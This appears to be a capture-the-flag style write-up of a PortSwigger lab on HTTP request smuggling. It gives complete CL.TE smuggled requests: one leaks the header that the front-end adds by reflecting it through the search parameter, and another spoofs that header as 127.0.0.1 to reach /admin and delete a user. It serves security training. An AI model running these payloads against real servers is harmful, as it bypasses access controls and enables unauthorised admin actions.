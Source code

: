 # Exploiting HTTP request smuggling to reveal front-end request rewriting

## Description

[This lab](https://portswigger.net/web-security/request-smuggling/exploiting/lab-reveal-front-end-request-rewriting) involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

There's an admin panel at `/admin`, but it's only accessible to people with the IP address `127.0.0.1`. The front-end server adds an HTTP header to incoming requests containing their IP address. It's similar to the `X-Forwarded-For` header but has a different name. 

## Reproduction and proof of concept

1. Browse to ``/admin`` and observe that the admin panel can only be loaded from ``127.0.0.1``.
2. Use the site's search function and observe that it reflects the value of the ``search`` parameter.
3. Use Burp Repeater to issue the following request twice.

```text
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Connection: close

search=test
```

4. The second response should contain "Search results for" followed by the start of a rewritten HTTP request.

```text
<h1>0 search results for 'testPOST / HTTP/1.1
X-vneqTa-Ip: <my-ip>
Host: 0adb005f049c4476c11158ad00f70056.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Transfer'</h1>
```
5. Make a note of the name of the`` X-*-IP`` header in the rewritten request, here it was `vneqTa` and use it to access the admin panel:

```text
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 143
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-vneqTa-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=1
```

6. Using the previous response as a reference, change the smuggled request URL to delete the user `carlos`:

![HTTP header smuggling](/_static/images/smuggling1.png)

## Exploitability

An attacker will need to smuggle a request to the back-end server that reveals the header that is added by the front-end server. Then the attackers will need to smuggle a request to the back-end server that includes the added header, accesses the admin panel, and deletes the user carlos. 
